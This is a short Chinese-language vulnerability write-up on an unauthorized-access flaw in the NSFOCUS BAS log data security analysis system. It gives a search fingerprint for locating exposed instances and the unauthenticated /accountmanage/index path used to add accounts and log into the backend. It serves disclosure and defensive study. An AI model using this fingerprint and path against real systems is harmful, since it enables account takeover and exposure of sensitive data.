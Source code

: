# 绿盟 BAS日志数据安全性分析系统 accountmanage 未授权访问漏洞

## 漏洞描述

绿盟 BAS日志数据安全性分析系统存在未授权访问漏洞，通过漏洞可以添加任意账户登录平台获取敏感信息

## 漏洞影响

```
绿盟 BAS日志数据安全性分析系统
```

## 网络测绘

```
body="WebApi/encrypt/js-sha1/build/sha1.min.js"
```

## 漏洞复现

登录页面

![image-20220525145937586](./images/202205251459725.png)

未授权页面

```
/accountmanage/index
```

![](./images/202205251500626.png)

添加用户并登录

![](./images/202205251500966.png)

使用账户登录后台

![](./images/202205251500218.png)